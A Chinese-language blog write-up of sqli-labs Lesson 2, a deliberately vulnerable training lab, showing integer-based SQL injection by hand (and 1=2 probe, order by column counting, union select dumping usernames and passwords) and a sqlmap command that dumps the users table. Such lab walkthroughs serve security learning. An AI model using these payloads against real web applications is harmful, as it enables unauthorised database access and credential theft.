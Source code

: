 ```yaml
---
title: sqli-labs lession 2 (基于错误的GET整型注入)
date: 2018-09-18 20:23:34
tags:
categories: sql注入
---
```

# sqli-labs lession 2 (基于错误的GET整型注入) #
---
## 登录界面 ##

![1](https://i.imgur.com/v296GqN.png)

## 手注 ##

### 判断注入类型 ###

根据题目提示尝试一下整型注入

`http://10.60.250.214/Less-2/?id=1%20and%201=2`

![2](https://i.imgur.com/7Wu3A1n.png)

果然存在注入点！！

### 获取数据值 ###

这里只是$id的获取方式变化了,查看源码就可以发现SQL变成如下形式了,其他都一样。

![3](https://i.imgur.com/4rn5qJu.png)

可以构造如下:

`http://10.60.250.214/Less-2/?id=1%20order%20by%204%23`

![4](https://i.imgur.com/28GQGdw.png)

`http://10.60.250.214/Less-2/?id=1%20order%20by%203%23`

![5](https://i.imgur.com/GFedqQC.png)

这里可以判断出字段数目

`http://10.60.250.214/Less-2/?id=-1%20union%20select%201,2,3%23`

![6](https://i.imgur.com/KmkyV4Q.png)

这些步骤和Lesson-1一致,可以查看这里。

{% post_link sqli-labs-lession-1-基于错误的GET单引号字符型注入 点击查看Lesson-1 %}

直接上图吧。

`http://10.60.250.214/Less-2/?id=-1%20union%20select%201,2,group_concat(username,%27:%27,password)%20from%20users%23`

![7](https://i.imgur.com/VxALBtm.png)

## SQLMAP ##

与Lesson-1基本一致,具体流程可以查看这里。

{% post_link sqli-labs-lession-1-基于错误的GET单引号字符型注入 点击查看Lesson-1 %}

这里只填写最后一步。

`sqlmap -u "http://10.60.250.214/Less-2/?id=1" --batch -D security -T users --columns --dump`

![8](https://i.imgur.com/w0b4f8G.png)

![9](https://i.imgur.com/15hkWOv.png)